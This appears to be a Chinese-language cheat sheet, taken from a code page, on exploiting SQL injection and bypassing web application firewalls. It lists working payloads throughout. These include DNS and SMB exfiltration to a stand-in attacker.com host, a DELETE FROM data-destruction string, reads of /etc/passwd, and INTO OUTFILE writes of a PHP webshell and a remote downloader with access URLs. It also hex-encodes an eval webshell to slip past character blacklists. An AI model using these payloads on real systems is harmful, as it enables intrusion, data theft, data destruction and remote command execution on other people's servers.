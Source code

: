 [SQLi漏洞的各种具体利用方式【漏洞危害】 - The SQL Injection Knowledge Base](https://websec.ca/kb/sql_injection#MySQL_Writing_Files)

* 数据泄露 - 通过"带外通道"获取数据(Out Of Band Channeling)
  * DNS Requests - `LOAD_FILE`可以发出DNS请求
    * MySQL `SELECT LOAD_FILE(CONCAT('\\\\foo.',(select MID(version(),1,1)),'.attacker.com\\abc'));`
  * SMB Requests - `INTO OUTFILE`可以发出SMB请求
    * MySQL `' OR 1=1 INTO OUTFILE '\\\\attacker\\SMBshare\\output.txt`
* 数据删除
  * MySQL `DELETE FROM some_table WHERE 1; --`
* 绕过判断
  * Auth Bypass:如web登录功能存在SQLi 使用"万能密码"实现Login Bypass
* 系统命令执行(参考sqlmap)
  * MySQL的用户自定义函数 - 上传一个二进制文件:共享库(shared library)到对应文件夹，它包含两个UDF(user-defined functions)用户自定义函数(函数作用都是执行系统命令). 然后在数据库创建该函数 并调用该函数 即可执行系统命令
  * MSSQL的`xp_cmdshell` - 扩展存储过程(extended stored procedure) 它是SQL Server的配置项，启用时能让SQL Server账号执行操作系统命令，返回文本行
* 文件读写 - 前提:当前数据库user有FILE权限(通常数据库root用户才会有)
  * 读取文件(Reading Files)
    * MySQL - `LOAD_FILE()`
    * 例1 `SELECT LOAD_FILE('/etc/passwd');` 
    * 例2 `SELECT LOAD_FILE(0x2F6574632F706173737764);`
  * 写入文件(Writing Files)
    * MySQL - `select ... INTO OUTFILE` 能导出多行数据 会做格式处理(在行末端写入新行 会转义某些符号) 二进制文件会被破坏
    * MySQL - `select ... INTO DUMPFILE` 只能导出一行数据 不做格式处理 导出二进制文件 内容完全不变 依旧可运行
    * 例1 写入WebShell `SELECT '<? system($_GET[\'c\']); ?>' INTO OUTFILE '/var/www/shell.php';` 访问WebShell `http://localhost/shell.php?c=cat%20/etc/passwd`
    * 例2 Downloader `SELECT '<? fwrite(fopen($_GET[f], \'w\'), file_get_contents($_GET[u])); ?>' INTO OUTFILE '/var/www/get.php'` 访问 `http://localhost/get.php?f=shell.php&u=http://localhost/c99.txt`
    * ...

#### SQLi - WAFbypass

* 绕过方法
  * sqlmap tamper - 用注释分割关键字 `/**/` 等
  * HTTP参数污染(HTTP Parameter Pollution)
  * ...


利用SQL注入写入webshell被拦截 - 如何绕过黑名单字符`'` `<` `?`

步骤1. 对"php代码"进行编码转换:  hex <-> ascii
```
利用了数据库能够使用hex编码的特性

对webshell的"php代码"进行编码转换

ascii字符:
<?php @eval($_POST['cmd']);?>

编码为十六进制(hex)格式的数据: 在最前面加0x
0x3C3F70687020406576616C28245F504F53545B27636D64275D293B3F3E
```
